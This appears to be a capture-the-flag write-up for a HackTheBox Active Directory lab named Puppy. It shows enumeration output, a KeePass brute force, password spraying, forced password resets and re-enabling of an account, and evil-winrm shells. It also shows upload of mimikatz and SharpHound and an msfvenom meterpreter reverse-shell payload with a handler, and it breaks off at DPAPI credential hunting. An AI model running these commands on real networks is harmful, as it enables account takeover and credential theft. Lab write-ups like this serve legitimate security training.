      name: Jamie S. Williams
      acb: '0x00000210'
      description: (null)
    '1107':
      username: steph.cooper
      name: Stephen W. Cooper
      acb: '0x00000210'
      description: (null)
    '1111':
      username: steph.cooper_adm
      name: Stephen A. Cooper
      acb: '0x00000210'
      description: (null)
    '500':
      username: Administrator
      name: (null)
      acb: '0x00004210'
      description: Built-in account for administering the computer/domain
    '501':
      username: Guest
      name: (null)
      acb: '0x00000215'
      description: Built-in account for guest access to the computer/domain
    '502':
      username: krbtgt
      name: (null)
      acb: '0x00020011'
      description: Key Distribution Center Service Account
    
     ===================================
    |    Groups via RPC on puppy.htb    |
     ===================================
    [*] Enumerating local groups
    [+] Found 6 group(s) via 'enumalsgroups domain'
    [*] Enumerating builtin groups
    [+] Found 28 group(s) via 'enumalsgroups builtin'
    [*] Enumerating domain groups
    [+] Found 18 group(s) via 'enumdomgroups'
    [+] After merging groups results we have 52 group(s) total:
    '1101':
      groupname: DnsAdmins
      type: local
    '1102':
      groupname: DnsUpdateProxy
      type: domain
    '1108':
      groupname: HR
      type: domain
    '1109':
      groupname: SENIOR DEVS
      type: domain
    '1112':
      groupname: Access-Denied Assistance Users
      type: local
    '1113':
      groupname: DEVELOPERS
      type: domain
    '498':
      groupname: Enterprise Read-only Domain Controllers
      type: domain
    '512':
      groupname: Domain Admins
      type: domain
    '513':
      groupname: Domain Users
      type: domain
    '514':
      groupname: Domain Guests
      type: domain
    '515':
      groupname: Domain Computers
      type: domain
    '516':
      groupname: Domain Controllers
      type: domain
    '517':
      groupname: Cert Publishers
      type: local
    '518':
      groupname: Schema Admins
      type: domain
    '519':
      groupname: Enterprise Admins
      type: domain
    '520':
      groupname: Group Policy Creator Owners
      type: domain
    '521':
      groupname: Read-only Domain Controllers
      type: domain
    '522':
      groupname: Cloneable Domain Controllers
      type: domain
    '525':
      groupname: Protected Users
      type: domain
    '526':
      groupname: Key Admins
      type: domain
    '527':
      groupname: Enterprise Key Admins
      type: domain
    '544':
      groupname: Administrators
      type: builtin
    '545':
      groupname: Users
      type: builtin
    '546':
      groupname: Guests
      type: builtin
    '548':
      groupname: Account Operators
      type: builtin
    '549':
      groupname: Server Operators
      type: builtin
    '550':
      groupname: Print Operators
      type: builtin
    '551':
      groupname: Backup Operators
      type: builtin
    '552':
      groupname: Replicator
      type: builtin
    '553':
      groupname: RAS and IAS Servers
      type: local
    '554':
      groupname: Pre-Windows 2000 Compatible Access
      type: builtin
    '555':
      groupname: Remote Desktop Users
      type: builtin
    '556':
      groupname: Network Configuration Operators
      type: builtin
    '557':
      groupname: Incoming Forest Trust Builders
      type: builtin
    '558':
      groupname: Performance Monitor Users
      type: builtin
    '559':
      groupname: Performance Log Users
      type: builtin
    '560':
      groupname: Windows Authorization Access Group
      type: builtin
    '561':
      groupname: Terminal Server License Servers
      type: builtin
    '562':
      groupname: Distributed COM Users
      type: builtin
    '568':
      groupname: IIS_IUSRS
      type: builtin
    '569':
      groupname: Cryptographic Operators
      type: builtin
    '571':
      groupname: Allowed RODC Password Replication Group
      type: local
    '572':
      groupname: Denied RODC Password Replication Group
      type: local
    '573':
      groupname: Event Log Readers
      type: builtin
    '574':
      groupname: Certificate Service DCOM Access
      type: builtin
    '575':
      groupname: RDS Remote Access Servers
      type: builtin
    '576':
      groupname: RDS Endpoint Servers
      type: builtin
    '577':
      groupname: RDS Management Servers
      type: builtin
    '578':
      groupname: Hyper-V Administrators
      type: builtin
    '579':
      groupname: Access Control Assistance Operators
      type: builtin
    '580':
      groupname: Remote Management Users
      type: builtin
    '582':
      groupname: Storage Replica Administrators
      type: builtin
    
     ===================================
    |    Shares via RPC on puppy.htb    |
     ===================================
    [*] Enumerating shares
    [+] Found 6 share(s):
    ADMIN$:
      comment: Remote Admin
      type: Disk
    C$:
      comment: Default share
      type: Disk
    DEV:
      comment: DEV-SHARE for PUPPY-DEVS
      type: Disk
    IPC$:
      comment: Remote IPC
      type: IPC
    NETLOGON:
      comment: Logon server share
      type: Disk
    SYSVOL:
      comment: Logon server share
      type: Disk
    [*] Testing share ADMIN$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share C$
    [+] Mapping: DENIED, Listing: N/A
    [*] Testing share DEV
    [+] Mapping: OK, Listing: DENIED
    [*] Testing share IPC$
    [+] Mapping: OK, Listing: NOT SUPPORTED
    [*] Testing share NETLOGON
    [+] Mapping: OK, Listing: OK
    [*] Testing share SYSVOL
    [+] Mapping: OK, Listing: OK
    
     ======================================
    |    Policies via RPC for puppy.htb    |
     ======================================
    [*] Trying port 445/tcp
    [+] Found policy:
    Domain password information:
      Password history length: 24
      Minimum password length: 7
      Maximum password age: 41 days 23 hours 53 minutes
      Password properties:
      - DOMAIN_PASSWORD_COMPLEX: true
      - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
      - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
      - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
      - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
      - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
    Domain lockout information:
      Lockout observation window: 30 minutes
      Lockout duration: 30 minutes
      Lockout threshold: None
    Domain logoff information:
      Force logoff time: not set
    
     ======================================
    |    Printers via RPC for puppy.htb    |
     ======================================
    [+] No printers available
    
    Completed after 31.12 seconds
```

AD was cleaned up very regularly, so it was necessary to keep adding levi to the group for future commands. Eventually we found that if smb was accessed too soon, the files were not visible even though Levi could ls the path. If one waits a few seconds after giving permissions to mount smb, one would get the same crawled data I have here.

# Exfiltrate keepass kdbx file


```python
!net rpc group addmem "DEVELOPERS" levi.james -U "puppy\levi.james%KingofAkron2025!" -S puppy.htb
!netexec smb -u levi.james -p KingofAkron2025! -M spider_plus --spider DEV puppy.htb
```

    SMB         10.129.110.146  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
    SMB         10.129.110.146  445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
    SPIDER_PLUS 10.129.110.146  445    DC               [*] Started module spidering_plus with the following options:
    SPIDER_PLUS 10.129.110.146  445    DC               [*]  DOWNLOAD_FLAG: False
    SPIDER_PLUS 10.129.110.146  445    DC               [*]     STATS_FLAG: True
    SPIDER_PLUS 10.129.110.146  445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
    SPIDER_PLUS 10.129.110.146  445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
    SPIDER_PLUS 10.129.110.146  445    DC               [*]  MAX_FILE_SIZE: 50 KB
    SPIDER_PLUS 10.129.110.146  445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
    SMB         10.129.110.146  445    DC               [*] Enumerated shares
    SMB         10.129.110.146  445    DC               Share           Permissions     Remark
    SMB         10.129.110.146  445    DC               -----           -----------     ------
    SMB         10.129.110.146  445    DC               ADMIN$                          Remote Admin
    SMB         10.129.110.146  445    DC               C$                              Default share
    SMB         10.129.110.146  445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
    SMB         10.129.110.146  445    DC               IPC$            READ            Remote IPC
    SMB         10.129.110.146  445    DC               NETLOGON        READ            Logon server share
    SMB         10.129.110.146  445    DC               SYSVOL          READ            Logon server share
    SPIDER_PLUS 10.129.110.146  445    DC               [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.110.146.json".
    SPIDER_PLUS 10.129.110.146  445    DC               [*] SMB Shares:           6 (ADMIN$, C$, DEV, IPC$, NETLOGON, SYSVOL)
    SPIDER_PLUS 10.129.110.146  445    DC               [*] SMB Readable Shares:  4 (DEV, IPC$, NETLOGON, SYSVOL)
    SPIDER_PLUS 10.129.110.146  445    DC               [*] SMB Filtered Shares:  1
    SPIDER_PLUS 10.129.110.146  445    DC               [*] Total folders found:  28
    SPIDER_PLUS 10.129.110.146  445    DC               [*] Total files found:    12
    SPIDER_PLUS 10.129.110.146  445    DC               [*] File size average:    2.73 MB
    SPIDER_PLUS 10.129.110.146  445    DC               [*] File size min:        0 B
    SPIDER_PLUS 10.129.110.146  445    DC               [*] File size max:        32.8 MB


```python
!cat /tmp/nxc_hosted/nxc_spider_plus/10.129.110.146.json
```

    {
        "DEV": {
            "KeePassXC-2.7.9-Win64.msi": {
                "atime_epoch": "2025-03-23 00:09:12",
                "ctime_epoch": "2025-03-23 00:07:57",
                "mtime_epoch": "2025-03-23 00:09:12",
                "size": "32.8 MB"
            },
            "recovery.kdbx": {
                "atime_epoch": "2025-03-11 19:25:46",
                "ctime_epoch": "2025-03-11 19:25:46",
                "mtime_epoch": "2025-03-11 19:25:46",
                "size": "2.61 KB"
            }
        },
        "NETLOGON": {},
        "SYSVOL": {
            "PUPPY.HTB/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI": {
                "atime_epoch": "2025-02-19 03:49:00",
                "ctime_epoch": "2025-02-19 03:45:13",
                "mtime_epoch": "2025-02-19 03:49:00",
                "size": "22 B"
            },
            "PUPPY.HTB/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
                "atime_epoch": "2025-02-19 03:45:13",
                "ctime_epoch": "2025-02-19 03:45:13",
                "mtime_epoch": "2025-02-19 03:45:20",
                "size": "1.07 KB"
            },
            "PUPPY.HTB/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol": {
                "atime_epoch": "2025-02-19 03:49:00",
                "ctime_epoch": "2025-02-19 03:49:00",
                "mtime_epoch": "2025-02-19 03:49:00",
                "size": "2.72 KB"
            },
            "PUPPY.HTB/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI": {
                "atime_epoch": "2025-05-14 09:53:36",
                "ctime_epoch": "2025-02-19 03:45:13",
                "mtime_epoch": "2025-05-14 09:53:36",
                "size": "23 B"
            },
            "PUPPY.HTB/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
                "atime_epoch": "2025-05-14 09:53:36",
                "ctime_epoch": "2025-02-19 03:45:13",
                "mtime_epoch": "2025-05-14 09:53:36",
                "size": "4.28 KB"
            },
            "PUPPY.HTB/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Registry.pol": {
                "atime_epoch": "2025-05-12 16:50:46",
                "ctime_epoch": "2025-05-12 16:50:46",
                "mtime_epoch": "2025-05-12 16:50:46",
                "size": "984 B"
            },
            "PUPPY.HTB/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/comment.cmtx": {
                "atime_epoch": "2025-05-12 16:50:46",
                "ctime_epoch": "2025-05-12 16:49:56",
                "mtime_epoch": "2025-05-12 16:50:46",
                "size": "554 B"
            },
            "PUPPY.HTB/Policies/{841B611C-9F3B-4090-BA0C-2AE4D6C02AF8}/GPT.INI": {
                "atime_epoch": "2025-05-13 16:48:05",
                "ctime_epoch": "2025-05-13 16:42:57",
                "mtime_epoch": "2025-05-13 16:48:05",
                "size": "59 B"
            },
            "PUPPY.HTB/Policies/{841B611C-9F3B-4090-BA0C-2AE4D6C02AF8}/Machine/Registry.pol": {
                "atime_epoch": "2025-05-13 16:48:05",
                "ctime_epoch": "2025-05-13 16:48:05",
                "mtime_epoch": "2025-05-13 16:48:05",
                "size": "888 B"
            },
            "UltFsQYRGg.txt": {
                "atime_epoch": "2025-03-20 22:33:44",
                "ctime_epoch": "2025-03-20 22:33:44",
                "mtime_epoch": "2025-03-20 22:33:44",
                "size": "0 B"
            }
        }
    }

# Bruteforce kdbx file

With the file downloaded via smb `get recovery.kdbx` and knowing the version of keepassxc that was used for the database, we would find that keepass2john will fail spectactularly. Google found another repository for keepass4brute which is just a shell script that uses keepass-cli to iterate through a wordlist locally. It's very slow, but luckily the password is very weak.

```sh
keepass4brute   master  ./keepass4brute.sh ../recovery.kdbx $(wordlists_path)/rockyou.txt
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344391 - Attempts per minute: 74 - Estimated time remaining: 19 weeks, 1 days
[+] Current attempt: liverpool

[*] Password found: liverpool
```

We get a list of passwords from the keepassdbx file. It's time to start categorizing these so we can enumerate through users and passwords a bit easier from our previous steps.


```python
users = {
    "levi.james":"KingofAkron2025!",
    "ant.edwards":"Antman2025!",
    "adam.silver":"HJKL2025!",
    "jamie.williams":"JamieLove2025!",
    "samuel.blake":"ILY2025!",
    "steve.tucker":"Steve2025!"
}
```

Using smbmap as a means of testing access, we see that levi has previously known access and ant.edwards has some new access.


```python
for user,password in users.items():
    print(user)
    !smbmap -H $target -u $user -p $password
```
```
    levi.james
...                                                                                               
    [+] IP: 10.129.110.146:445	Name: puppy.htb           	Status: Authenticated
    	Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	ADMIN$                                            	NO ACCESS	Remote Admin
    	C$                                                	NO ACCESS	Default share
    	DEV                                               	NO ACCESS	DEV-SHARE for PUPPY-DEVS
    	IPC$                                              	READ ONLY	Remote IPC
    	NETLOGON                                          	READ ONLY	Logon server share 
    	SYSVOL                                            	READ ONLY	Logon server share 
...                                                                                                                                                                                                      
    ant.edwards
...                                                                                
    [+] IP: 10.129.110.146:445	Name: puppy.htb           	Status: Authenticated
    	Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	ADMIN$                                            	NO ACCESS	Remote Admin
    	C$                                                	NO ACCESS	Default share
    	DEV                                               	READ, WRITE	DEV-SHARE for PUPPY-DEVS
    	IPC$                                              	READ ONLY	Remote IPC
    	NETLOGON                                          	READ ONLY	Logon server share 
    	SYSVOL                                            	READ ONLY	Logon server share 
...
```                                                                                                                                                                                                   


# Determine next target

We had previously seen hints that adam.silver might be accessing the system remotely. Bloodhound confirms that adam.silver is a member of the remote desktop users as well. So attempting to draw a line between our new user access and this potential target, we see we have GenericAll over a user this time.  


Following the documentation, we can see that we do indeed have access to change their password.
```
 net rpc user password adam.silver -U 'puppy\ant.edwards%Antman2025!' -S puppy.htb
Can't load /etc/samba/smb.conf - run testparm to debug it
Enter new password for adam.silver: <Whoops1234>
```
But now the user validation shows the ACCOUNT_DISABLED error. Bloodhound confirms this. Note that the screenshot is from a scrape further in the exercise with more permissions, so it was much more sparse on the first iteration of this exercise.  



```python
!netexec smb -u adam.silver -p Whoops1234 -M spider_plus puppy.htb
```
```
    SMB         10.129.110.146  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
    SMB         10.129.110.146  445    DC               [-] PUPPY.HTB\adam.silver:Whoops1234 STATUS_ACCOUNT_DISABLED

```

Initially I didn't understand how to enable the user, so for full testing in the meantime I enumerated through every user and every known password to known services to test accounts. Only Levi & Ant were identified.


```python
users = [
    "levi.james",
    "ant.edwards",
    "adam.silver",
    "jamie.williams",
    "samuel.blake",
    "steve.tucker",
    "steph.cooper",
    "steph.cooper_adm"
]
passwords = [
    "KingofAkron2025!",
    "Antman2025!",
    "HJKL2025!",
    "JamieLove2025!",
    "ILY2025!",
    "Steve2025!",
    "liverpool"
]
```


```python
for user in users:
    for password in passwords:
        print(f"Trying {user} with {password}")
        !net rpc info -U 'puppy\{user}%{password}' -S $target
```
```
    Trying levi.james with KingofAkron2025!
    Can't load /etc/samba/smb.conf - run testparm to debug it
    Domain Name: PUPPY
    Domain SID: S-1-5-21-1487982659-1829050783-2281216199
    Sequence number: 1
    Num users: 44
    Num domain groups: 0
    Num local groups: 18
    Trying levi.james with Antman2025!
...
```


Second round of bloodhound agent scraping using our new user just in case more permissions or objects are found.


```python
!bloodhound-python -dc dc.puppy.htb -u "ant.edwards" -p 'Antman2025!' -d puppy.htb -c All
```
```
    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
    INFO: Connecting to LDAP server: dc.puppy.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: dc.puppy.htb
    INFO: Found 10 users
    INFO: Found 56 groups
    INFO: Found 3 gpos
    INFO: Found 3 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: DC.PUPPY.HTB
...
    
    INFO: Done in 00M 20S
```

# RPC, enabling the user and changing the password

After going through bloodhound's net rpc documentation on password reset, I spent an embarassing amount of time reading help menus from net rpc to see what else it could do. Some further investigation showed an interactive command shell, and with some intuition and luck I found an option to set "disabled adam.silver no" in the "net rpc user edit" context. 

For good measure I reset the password as well. To this day, I do not know if the identified password would have worked or not.

```sh
net rpc shell -U 'puppy\ant.edwards%Antman2025!' -S puppy.htb
net rpc user edit> disabled adam.silver no
# Set adam.silver's disabled flag from [yes] to [no]

net rpc user password adam.silver -U 'puppy\ant.edwards%Antman2025!' -S puppy.htb
```

With this account now enabled, I'm able to use evil-winrm to spawn a shell and get the first user flag in C:\Users\adam.silver\Desktop\flag.txt

# Initial Foothold

```sh
> evil-winrm -i puppy.htb puppy.htb -u "adam.silver" -p 'Whoops1234'

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ==============================================
puppy\adam.silver S-1-5-21-1487982659-1829050783-2281216199-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
PUPPY\DEVELOPERS                            Group            S-1-5-21-1487982659-1829050783-2281216199-1113 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

# Identified sensitive file

There's no other interesting permissions on this user, so I go looking for scattered passwords. Backups seems like an interesting directory in C:\. I did check the recycle bin as well and found no interesting deleted files.

```sh
*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> dir -Fo


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```

Exfiltrating this with evil-winrm `download`, I can extract the zip without a password and see a sole configuration file with an ldap bind credential of a new user.


```python
!cat puppy/nms-auth-config.xml.bak
```

    <?xml version="1.0" encoding="UTF-8"?>
    <ldap-config>
        <server>
            <host>DC.PUPPY.HTB</host>
            <port>389</port>
            <base-dn>dc=PUPPY,dc=HTB</base-dn>
            <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
            <bind-password>ChefSteph2025!</bind-password>
        </server>
        <user-attributes>
            <attribute name="username" ldap-attribute="uid" />
            <attribute name="firstName" ldap-attribute="givenName" />
            <attribute name="lastName" ldap-attribute="sn" />
            <attribute name="email" ldap-attribute="mail" />
        </user-attributes>
        <group-attributes>
            <attribute name="groupName" ldap-attribute="cn" />
            <attribute name="groupMember" ldap-attribute="member" />
        </group-attributes>
        <search-filter>
            <filter>(&(objectClass=person)(uid=%s))</filter>
        </search-filter>
    </ldap-config>


Add the password to the catelog.


```python
passwords.append("ChefSteph2025!")
```

# Second pwned user
This user is also a member of the Remote Users group, and thus I'm able to log in as this user. However there's no new permissions, hinting that there must be some hidden files littered on the system if I want to continue my privesc.


```sh
 evil-winrm -i puppy.htb puppy.htb -u "steph.cooper" -p 'ChefSteph2025!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== ==============================================
puppy\steph.cooper S-1-5-21-1487982659-1829050783-2281216199-1107


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

## More enumeration
While I'm here, I gather the last bloodhound dump with the highest permissions I have so far and try winpeas and mimikatz to determine if there's some stored credentials or other loose privileges that I missed. 

```sh
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> upload SharpHound_v2.6.5_windows_x86.zip
                                        
Info: Uploading /home/tokugero/ctf/htb/season8/week1-puppy/SharpHound_v2.6.5_windows_x86.zip to C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86.zip
                                        
Data: 3206236 bytes of 3206236 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> dir


    Directory: C:\Users\steph.cooper\Downloads


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/18/2025   1:50 AM          37208 mimidrv.sys
-a----         5/18/2025   1:51 AM        1355264 mimikatz.exe
-a----         5/18/2025   1:51 AM          37376 mimilib.dll
-a----         5/18/2025   1:51 AM          10752 mimispool.dll
-a----         5/18/2025   2:22 AM         600580 PowerUp.ps1
-a----         5/18/2025   2:41 AM        2404679 SharpHound_v2.6.5_windows_x86.zip
-a----         5/18/2025   1:26 AM          35496 winpeas.output
-a----         5/18/2025   1:20 AM          81036 winPEAS.ps1


*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> expand-archive SharpHound_v2.6.5_windows_x86.zip
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> dir


    Directory: C:\Users\steph.cooper\Downloads


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/18/2025   2:41 AM                SharpHound_v2.6.5_windows_x86
-a----         5/18/2025   1:50 AM          37208 mimidrv.sys
-a----         5/18/2025   1:51 AM        1355264 mimikatz.exe
-a----         5/18/2025   1:51 AM          37376 mimilib.dll
-a----         5/18/2025   1:51 AM          10752 mimispool.dll
-a----         5/18/2025   2:22 AM         600580 PowerUp.ps1
-a----         5/18/2025   2:41 AM        2404679 SharpHound_v2.6.5_windows_x86.zip
-a----         5/18/2025   1:26 AM          35496 winpeas.output
-a----         5/18/2025   1:20 AM          81036 winPEAS.ps1


*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> cd SharpHound_v2.6.5_windows_x86
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86> dir


    Directory: C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/18/2025   8:46 PM        1284608 SharpHound.exe
-a----         4/18/2025   8:46 PM            553 SharpHound.exe.config
-a----         4/18/2025   8:46 PM         222720 SharpHound.pdb
-a----         4/18/2025   8:46 PM        1580037 SharpHound.ps1


*Evil-WinRM* PS C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86> ./SharpHound.exe
2025-05-18T02:42:16.1800097-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-05-18T02:42:16.3987696-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices, LdapServices, WebClientService, SmbInfo
2025-05-18T02:42:16.4769008-07:00|INFORMATION|Initializing SharpHound at 2:42 AM on 5/18/2025
2025-05-18T02:42:16.5550112-07:00|INFORMATION|Resolved current domain to PUPPY.HTB
2025-05-18T02:42:16.7737667-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices, LdapServices, WebClientService, SmbInfo
2025-05-18T02:42:16.9300190-07:00|INFORMATION|Beginning LDAP search for PUPPY.HTB
2025-05-18T02:42:17.0237647-07:00|INFORMATION|Beginning LDAP search for PUPPY.HTB Configuration NC
2025-05-18T02:42:17.0393914-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-05-18T02:42:17.0550239-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-05-18T02:42:17.0706421-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for PUPPY.HTB
2025-05-18T02:42:17.0706421-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for PUPPY.HTB
2025-05-18T02:42:17.4456383-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for PUPPY.HTB
2025-05-18T02:42:17.8675108-07:00|INFORMATION|Consumers finished, closing output channel
2025-05-18T02:42:17.8987642-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2025-05-18T02:42:18.2268905-07:00|INFORMATION|Status: 305 objects finished (+305 305)/s -- Using 39 MB RAM
2025-05-18T02:42:18.2268905-07:00|INFORMATION|Enumeration finished in 00:00:01.3097175
2025-05-18T02:42:18.3362774-07:00|INFORMATION|Saving cache with stats: 19 ID to type mappings.
 0 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-05-18T02:42:18.4143930-07:00|INFORMATION|SharpHound Enumeration Completed at 2:42 AM on 5/18/2025! Happy Graphing!
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86> dir -Fo


    Directory: C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/18/2025   2:42 AM          26402 20250518024217_BloodHound.zip
-a----         4/18/2025   8:46 PM        1284608 SharpHound.exe
-a----         4/18/2025   8:46 PM            553 SharpHound.exe.config
-a----         4/18/2025   8:46 PM         222720 SharpHound.pdb
-a----         4/18/2025   8:46 PM        1580037 SharpHound.ps1
-a----         5/18/2025   2:42 AM           1452 ZTQ3M2Y2NzMtYzdhMi00NzVmLWI1ZWUtZDEwYjIwYTMwMDI2.bin


*Evil-WinRM* PS C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86> download 20250518024217_BloodHound.zip
                                        
Info: Downloading C:\Users\steph.cooper\Downloads\SharpHound_v2.6.5_windows_x86\20250518024217_BloodHound.zip to 20250518024217_BloodHound.zip
                                        
Info: Download successful!
```

## Upgrading Shell

Here I opted to generate a reverse shell payload with msfvenom, and then user metasploit to catch the shell. I used evil-winrm to deliver the payload and execute using `upload shell.exe`

On attack box

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=9999 -f exe > shell.exe

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.28
lhost => 10.10.14.28
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > run
```
On victim

```sh
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> ./shell.exe
```

# Identified sensitive data to steal

Perusing the winPEAS.exe output (the powershell run died half way through and did not give as consistent a readout), I found some directories holding windows cached credentials. It took some time before I came back to this, but it proved to be the last files for which I was looking.

```sh
# From winPEAS.exe
╔══════════╣ Checking for DPAPI Master Keys
╚  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
